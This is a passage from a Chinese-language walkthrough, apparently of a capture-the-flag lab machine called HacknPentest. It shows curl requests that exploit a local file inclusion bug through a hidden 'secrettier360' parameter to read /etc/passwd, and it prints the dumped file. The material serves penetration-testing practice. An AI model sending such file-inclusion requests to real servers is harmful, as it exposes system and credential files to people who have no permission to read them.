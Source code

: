 ```shell
curl http://192.168.125.142/index.php?file=location.txt
<html>
<title>HacknPentest</title>
<body>
 <img src='hacknpentest.png' alt='hnp security' width="1300" height="595" />
</body>

Do something better <br><br><br><br><br><br>ok well Now you reah at the exact parameter <br><br>Now dig some more for next one <br>use 'secrettier360' parameter on some other php page for more fun.
</html>
```

使用 `secrettier360`   参数

```
curl http://192.168.125.142/index.php?secrettier360=location.txt
```

思路：文件包含

# 2. 漏洞探测

尝试

```
curl http://192.168.125.142/index.php?secrettier360=/etc/passwd
#使用 image这个文件才能探测到文件包含漏洞
curl  http://192.168.125.142/image.php?secrettier360=/etc/passwd
```



```html
<html>
<title>HacknPentest</title>
<body>
 <img src='hacknpentest.png' alt='hnp security' width="1300" height="595" /></p></p></p>
</body>
finaly you got the right parameter<br><br><br><br>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
lightdm:x:108:114:Light Display Manager:/var/lib/lightdm:/bin/false
whoopsie:x:109:117::/nonexistent:/bin/false
```